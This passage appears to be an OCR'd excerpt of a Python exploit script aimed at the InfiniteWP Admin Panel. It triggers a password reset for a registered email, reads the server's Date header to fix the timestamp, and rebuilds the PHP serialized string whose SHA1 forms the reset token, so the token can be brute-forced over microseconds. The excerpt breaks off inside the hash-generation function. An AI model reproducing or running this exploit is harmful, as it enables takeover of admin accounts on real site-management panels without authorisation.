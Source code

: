 ```
        "action": "resetPasswordSendMail", 
        "loginSubmit": "Send Reset Link"
    }, allow_redirects=False)
    log.debug("init pw reset returned these headers: {}".format(response.headers))
    """
    now we could use our registered timings to restrict the bruteforce values to the minimum range
    instead of using the whole "last second" microseconds range, however we can't be 100% sure
    the target server is actually NTP-synced just via the HTTP "Date" header, so let's skip it for now
    # calculate actual ntp-time range
    end_clock = time.perf_counter() # datetime.datetime.utcnow().replace(tzinfo=datetime.timezone.utc)
    delta_clock = end_clock - start_clock
    end_ts = start_ts + datetime.timedelta(seconds=delta_clock)
    log.debug("end: {}".format(end_ts))
    print("delta clock {} -- end ts {} timestamp: {}".format(delta_clock, end_ts, end_ts.timestamp()))

    # this takes for garanteed that the response arrives before 1 minute is elapsed
    micros_elapsed = delta_ts.seconds * 1000000 + delta_ts.microseconds
    log.debug("micros elapsed: {}".format(micros_elapsed))
    """
    if response.status_code == 302 and "resetPasswordEmailNotFound" in response.headers['location']:
        log.error("the input email is not registered in the target Infinite WP Admin Panel, retry with another one")
        sys.exit(1)
    # both redirects are ok because the reset hash is written in the db before sending the mail
    if response.status_code == 302 \
        and (response.headers["location"] == 'login.php?successMsg=resetPasswordMailSent' \
            or response.headers["location"] == 'login.php?view=resetPassword&errorMsg=resetPasswordMailError'):

        # Date: Tue, 11 Aug 2020 09:59:38 GMT --> dt obj
        server_dt = datetime.datetime.strptime(response.headers["date"], '%a, %d %b %Y %H:%M:%S GMT')
        server_dt = server_dt.replace(tzinfo=datetime.timezone.utc)
        log.debug("server time: {}".format(server_dt))
        """
        this could be a bruteforce optimization, however it is not 100% reliable as mentioned earlier
        if (end_ts - server_dt) > datetime.timedelta(milliseconds=500):
            log.warning("the target server doesn't look ntp-synced, exploit will most probably fail") 
        """
        args.start_ts = int(server_dt.timestamp())
        # args.micros_elapsed = 1000000
        return 
    else:
        log.error("pw reset init failed, check with debug enabled (-d)")
        sys.exit(1)
def generate_reset_hash(timestamp, uid):
    global args
    """
        $hashValue = serialize(array('hashCode' => 'resetPassword', 
        'uniqueTime' => microtime(true), 
        'userPin' => $userDets['userID']));
        ^ e.g. a:3:{s:8:"hashCode";s:13:"resetPassword";s:10:"uniqueTime";d:1597143127.445164;s:7:"userPin";s:1:"1";}
        $resetHash = sha1($hashValue);
    """
    template_ts_uid = "a:3:{s:8:\"hashCode\";s:13:\"resetPassword\";s:10:\"uniqueTime\";d:%s;s:7:\"userPin\";s:1:\"%s\";}"
```